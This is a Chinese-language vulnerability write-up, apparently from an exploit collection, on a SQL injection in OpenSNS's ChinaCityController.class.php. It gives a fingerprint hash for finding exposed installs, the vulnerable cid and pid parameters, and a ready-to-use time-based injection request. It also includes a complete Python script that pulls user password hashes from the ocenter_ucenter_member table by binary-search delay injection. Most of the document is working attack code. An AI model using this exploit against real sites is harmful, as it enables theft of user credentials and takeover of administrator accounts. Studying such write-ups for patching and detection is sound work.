





OpenSNS ChinaCityController.class.php SQL注入漏洞¶
漏洞描述¶
OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码
漏洞影响¶
OpenSNS
网络测绘¶
icon_hash="1167011145"
漏洞复现¶
登录页面如下

存在漏洞的文件为Addons/ChinaCity/Controller/ChinaCityController.class.php

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

通过构造请求闭合SQL语句，造成SQL注入
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html
cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1

通过二分法延时注入可以获取用户账号密码，登录后台
import time
import requests
url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"
flag = ""
for i in range(1,100):
low = 32
high = 128
while low < high:
headers = {
"Content-Type": "application/x-www-form-urlencoded",
"X-Requested-With": "XMLHttpRequest"
}
mid = (low + high)//2
data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
timeStart = time.time()
r = requests.post(url=url, data=data, headers=headers)
timeEnd = time.time()
# print(r.text, low, high, data,timeStart-timeEnd)
if timeEnd - timeStart >= 1:
high = mid
else:
low = mid + 1
if low == high == 32:
print("No result")
break
flag += chr((high + low - 1)//2)
print(flag)
